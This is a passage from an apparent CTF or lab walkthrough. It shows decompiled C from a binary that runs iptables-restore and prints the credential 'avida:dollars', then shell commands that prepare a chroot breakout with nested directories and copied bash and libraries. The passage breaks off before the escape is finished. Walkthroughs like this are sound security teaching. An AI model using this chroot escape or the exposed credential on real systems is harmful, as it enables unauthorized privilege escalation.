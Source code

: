 ```c
    system("/sbin/iptables-restore < /etc/sysconfig/iptables");
    puts("Service started...");
    puts("Use avida:dollars to access.");
    // 0x8048613
    return rmdir("/nginx/usr/share/nginx/html/breakout");
}

// --------------- Dynamically Linked Functions ---------------

// int chdir(const char * path);
// int chroot(const char * path);
// int mkdir(const char * path, __mode_t mode);
// int puts(const char * s);
// int rmdir(const char * path);
// int setreuid(__uid_t ruid, __uid_t euid);
// int strncmp(const char * s1, const char * s2, size_t n);
// int system(const char * command);

// --------------------- Meta-Information ---------------------

// Detected compiler/packer: gcc (4.6.3)
// Detected functions: 1
```


## Exploit chroot


### Prepare evironement for chroot

```bash

bash-4.1$ ldd /usr/sbin/chroot
        linux-gate.so.1 =>  (0xb7fff000)
        libc.so.6 => /lib/libc.so.6 (0xb7e62000)
        /lib/ld-linux.so.2 (0x00110000)

bash-4.1$ cd /tmp
bash-4.1$ mkdir /tmp/chroot
bash-4.1$ cd /tmp/chroot
bash-4.1$ mkdir -p $(python -c "print 'a/'*100")
bash-4.1$ mkdir bin
bash-4.1$ cp -a /bin/bash bin/bash
bash-4.1$ cp -a /bin/sh bin/sh
bash-4.1$ cp -al /lib lib
bash-4.1$ cd $(python -c "print 'a/'*100")

```

###  Test path
